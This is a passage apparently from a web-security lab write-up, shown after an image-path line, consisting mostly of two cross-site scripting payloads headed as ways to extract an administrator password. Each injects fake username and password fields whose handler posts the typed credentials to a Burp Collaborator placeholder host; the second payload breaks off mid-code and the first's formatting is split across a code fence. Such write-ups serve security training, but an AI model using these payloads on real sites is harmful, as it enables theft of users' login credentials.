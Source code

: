 <img src="images/image129.png" alt="third" width="500">

Alternative payload to extract password for administrator

**Payload1:**
```

<input name="username" id="username">

<input type="password" name="password" onchange="if(this.value.length) {

  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {

    method: 'POST',

    mode: 'no-cors',

    headers: {

      'Content-Type': 'application/x-www-form-urlencoded'

    },

    body: 'username=' + encodeURIComponent(document.getElementById('username').value) + '&password=' + encodeURIComponent(this.value)

  });
```

}">

**Payload2:**
```
<input name="username" id="username">

<input type="password" name="password" onchange="if(this.value.length) {

  var data = new FormData();

  data.append('username', document.getElementById('username').value);

  data.append('password', this.value);

  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {

    method: 'POST',

    mode: 'no-cors',

```